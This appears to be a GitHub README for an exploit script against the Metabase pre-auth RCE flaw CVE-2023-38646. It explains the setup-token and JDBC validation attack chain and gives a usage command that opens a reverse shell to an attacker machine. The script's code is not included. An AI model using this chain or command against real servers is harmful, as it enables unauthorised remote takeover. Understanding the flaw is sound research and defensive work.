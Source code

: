 # CVE-2023-38646

This script creates a reverse shell targeting CVE-2023-38646 (CVSS 9.8). It is developed from the article [Chaining our way to Pre-Auth RCE in Metabase (CVE-2023-38646)](https://www.assetnote.io/resources/research/chaining-our-way-to-pre-auth-rce-in-metabase-cve-2023-38646).

# How it works:
A token called "setup-token" is used to allow users to setup Metabase. However, for vulnerable versions of Metabase this token is not removed after setup.
This token is accessible to unauthenticated users under "/api/session/properties" - however the script is able to automatically retrieve the token.

As part of the setup process, an endpoint exists at /api/setup/validate which takes in a JDBC URI as a part of the POST request and then validates the connection before allowing you to complete the setup. However, this is also not disabled after inital setup and can be used with the set-up token.

Further, Assetnote found a 0day SQL injection vulnerability which allows commands be to executed on the remote host. Using this, a reverse shell can be spawned.

For more detailed information, please see the [full article](https://www.assetnote.io/resources/research/chaining-our-way-to-pre-auth-rce-in-metabase-cve-2023-38646).

# How to use this script:
`python3 CVE-2023-38646.py --lhost {KALI IP} --lport {KALI LISTENING PORT} --url http://{DOMAIN_OF_LOGIN_PAGE-NOT_PATH!}`

options:
* -h, --help    - show this help message and exit
* --url URL     - URL of the login page
* --lhost LHOST  - Your attacker machine IP
* --lport LPORT - Your attacker machine listening port

Example:
![Example Screenshot](Example%20Screenshot.png)

# Disclaimer
This script is provided for educational and awareness purposes only. It is intended to demonstrate a security vulnerability and should only be used in environments where you have explicit authorization to test for and mitigate such vulnerabilities. Unauthorised use of this script on systems without proper authorization may be illegal and could result in legal consequences. 
The author of this script are not responsible for any misuse or damage caused by the execution of this code. Use at your own risk.
By using this script, you agree that you have read and understood this disclaimer and assume full responsibility for any actions taken.

# Acknowledgements:
This script was developed from the article [Chaining our way to Pre-Auth RCE in Metabase (CVE-2023-38646)](https://www.assetnote.io/resources/research/chaining-our-way-to-pre-auth-rce-in-metabase-cve-2023-38646).
Inspiration was also taken from [Metabase Pre-Auth RCE (CVE-2023-38646) POC](https://github.com/Pyr0sec/CVE-2023-38646) by [Pyr0sec](https://github.com/Pyr0sec).
